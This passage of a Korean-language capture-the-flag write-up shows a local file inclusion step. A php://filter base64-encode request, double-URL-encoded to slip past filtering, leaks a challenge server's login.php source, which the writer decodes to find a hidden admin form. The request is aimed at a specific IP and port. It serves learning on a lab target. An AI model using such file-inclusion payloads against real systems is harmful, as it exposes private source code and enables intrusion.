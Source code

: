 ```
            window.location.href='/';
            </script>";
        }
    }
?>
```
 - 해당 페이지 내용을 보면 지금 보여지는 check.php라는 페이지는 fake라는것을 알수있다.
 - 다른페이지를 찾던중 메인에 로딩되던 페이지가 login form이라는것을 우리는 알고있고 해당 폼을 근거로 login.php라는 페이지가 있지않을까해서 탐색
```
http://13.125.23.252:11050/?p=php://filter/convert%252Ebase64%252Dencode/resource=login
```
<img width="1470" alt="image" src="https://github.com/ChCh0i/steel/assets/108965611/07039d0d-e83a-419c-8364-cb4ea557edac">
 - login이라는 페이지가 존재하여 해당 리소스값을 base64로 가져오는것을 확인할수 있었고
 - 해당 소스 decode
```
<div class="container">
        <div class="row">
            <div class="col-lg-3 col-md-2"></div>
            <div class="col-lg-6 col-md-8 login-box">
                <div class="col-lg-12 login-key">
                </div>
                <div class="col-lg-12 login-title">
                    LOGIN
                </div>

                <div class="col-lg-12 login-form">
                    <div class="col-lg-12 login-form">
                        <?php
                            /* HOW DID YOU FIND IT? */
                            /* <form action="l0g1nW1th4dm1n.php" method="post"> */
                        ?>
                        <form action="/?p=check" method="post">
                            <div class="form-group">
                                <label class="form-control-label">USERNAME</label>
                                <input type="text" name="username" class="form-control">
                            </div>
                            <div class="form-group">
                                <label class="form-control-label">PASSWORD</label>
                                <input type="password" name="password" class="form-control" i>
                            </div>
                            <div class="col-lg-12 loginbttm">
                                <div class="col-lg-6 login-btm login-text">
                                </div>
                                <div class="col-lg-6 login-btm login-button">
                                    <button type="submit" class="btn btn-outline-primary">LOGIN</button>
                                </div>
                            </div>
                        </form>
                    </div>
                </div>
                <div class="col-lg-3 col-md-2"></div>
            </div>
        </div>
        <script src="https://code.jquery.com/jquery-3.2.1.slim.min.js" integrity="sha384-KJ3o2DKtIkvYIK3UENzmM7KCkRr/rE9/Qpg6aAZGJwFDMVNA/GpGFF93hXpG5KkN" crossorigin="anonymous"></script>
        <script src="https://cdn.jsdelivr.net/npm/popper.js@1.12.9/dist/umd/popper.min.js" integrity="sha384-ApNbgh9B+Y1QKtv3Rn7W3mgPxhU9K/ScQsAP7hUibX39j7fakFPskvXusvfa0b4Q" crossorigin="anonymous"></script>
        <script src="https://cdn.jsdelivr.net/npm/bootstrap@4.0.0/dist/js/bootstrap.min.js" integrity="sha384-JZR6Spejh4U02d8jOt6vLEHfe/JQGiRRSQQxSfFWpi1MquVdAyjUar5+76PVCmYl" crossorigin="anonymous"></script>
    </body>
```